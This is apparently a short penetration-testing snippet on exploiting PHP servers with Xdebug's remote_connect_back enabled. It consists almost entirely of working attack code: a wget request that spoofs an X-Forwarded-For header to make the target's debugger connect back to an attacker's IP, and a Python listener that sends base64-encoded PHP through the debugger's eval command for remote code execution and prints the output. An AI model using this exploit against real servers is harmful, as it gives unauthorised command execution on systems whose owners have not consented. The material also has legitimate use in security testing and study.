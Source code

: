 
If  `remote_connect_back` is enabled
```bash
wget -q -O - 'http://exemple.com/xdebug.php?XDEBUG_SESSION_START=phpstorm' --header "X-Forwarded-For: YOUR_IP"
```

Launching this listener : 
- And once connected, sending `PHP` code (e.g. `scandir("./")`

```python
import socket
import base64

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(4096)
    outputs = client_data.split("CDATA[")
    # print(outputs)
    for output in outputs:
        # print(output)
        try :
            b64 = output.split("]]")[0]
            clear = base64.b64decode(b64)
            print(clear)
        except:
            pass
    #print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))

```